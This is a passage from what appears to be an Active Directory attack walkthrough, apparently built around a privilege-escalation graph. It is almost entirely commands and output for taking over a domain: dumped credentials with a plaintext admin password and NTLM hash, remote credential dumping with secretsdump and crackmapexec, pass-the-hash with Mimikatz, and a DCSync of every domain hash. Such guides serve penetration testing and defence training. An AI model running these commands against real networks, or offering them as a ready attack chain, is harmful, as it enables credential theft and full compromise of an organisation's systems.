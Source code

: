 ```powershell
     * Domain   : CORP.LOCAL
     * Password : (null)
    tspkg :
     * Username : DA-Admin
     * Domain   : CORP
     * Password : SuperSecretDAPassword123!

# Extract NTLM hash or plaintext password (if WDigest enabled)
# NTLM Hash: 8846f7eaee8fb117ad06bdd830b7586c
# OR
# Plaintext: SuperSecretDAPassword123!
```

From Linux:
```bash
# Dump all credentials from FILE-SERVER01:
secretsdump.py 'corp/helpdesk-admin:CrackedPass@FILE-SERVER01.corp.local'

# Look for DA-ADMIN in output:
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/DA-Admin:$DCC2$10240#DA-Admin#hash...

# Or extract NTLM hash:
crackmapexec smb FILE-SERVER01.corp.local -u 'helpdesk-admin' -p 'CrackedPass' --lsa

# Output:
CORP\DA-Admin:8846f7eaee8fb117ad06bdd830b7586c
```

**✓ Result:** You have DA-ADMIN's NTLM hash or password

---

**Relationship 6: MemberOf (DA-ADMIN → DOMAIN ADMINS)**
- **Type:** Group membership
- **Exploitable:** No (informational)
- **Action:** Authenticate as DA-ADMIN
- **Notes:** This grants Domain Admin privileges

**Final Exploitation:**

From Windows:
```powershell
# Pass-the-Hash with Mimikatz:
sekurlsa::pth /user:DA-Admin /domain:corp.local /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:powershell.exe

# OR use plaintext password:
runas /user:corp\da-admin "powershell.exe"
# Enter: SuperSecretDAPassword123!

# Verify Domain Admin access:
Get-ADGroupMember -Identity "Domain Admins"

# Access Domain Controller:
Enter-PSSession -ComputerName DC01

# Dump all domain hashes (DCSync):
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:corp.local /all"'
```
